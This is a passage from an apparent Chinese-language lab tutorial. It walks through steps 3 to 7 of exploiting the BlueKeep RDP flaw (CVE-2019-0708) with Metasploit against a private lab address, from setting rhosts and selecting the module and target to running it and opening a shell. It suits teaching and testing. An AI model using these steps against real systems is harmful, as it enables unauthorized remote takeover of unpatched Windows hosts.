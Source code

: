 ![image-20220716100724388](https://i0.hdslb.com/bfs/album/4907d41325bb9978e1ccfbf0834a24033f95e28f.png)

![image-20220716100839266](https://i0.hdslb.com/bfs/album/e9f95f0b969ef49851007cb29b59f38b11b28f2a.png)

## 3.设置rhosts

```
set rhosts 192.168.1.110     # 直接接收ip , 如果想要批量检测  file:/文件路径/文件名
run
```

![image-20220716100917934](https://i0.hdslb.com/bfs/album/e693281201176c0e0b86cda2a14e4e2d73ac3278.png)

## 4.说明存在漏洞，搜索cve-2019-0708  选择相应漏洞利用模块

```
search cve-2019-0708
use 1
```

![image-20220716101032795](https://i0.hdslb.com/bfs/album/eaa74b05a5a50f1b0141920751fa8d642790002b.png)

![image-20220716101109450](https://i0.hdslb.com/bfs/album/3f5124a0b062bbed421c096db266af8bb6195bc4.png)



## 5.显示选项  显示targets

```
show options
show targets
```

![image-20220716101141240](https://i0.hdslb.com/bfs/album/99ec7ac10ce0323126508d7394250feb7e9de881.png)



## 6.设置options和targets

```
set rhosts 192.168.1.110
set target 4
```

![image-20220716101521104](https://i0.hdslb.com/bfs/album/71835c8a184e00912fb30e59e4ba2bf80ce8373b.png)



![image-20220716101448519](https://i0.hdslb.com/bfs/album/68db1e9439765f9bfce13e44c6fdfd6177cad69a.png)

## 7.开始攻击，拿到shell

```
run
shell
```
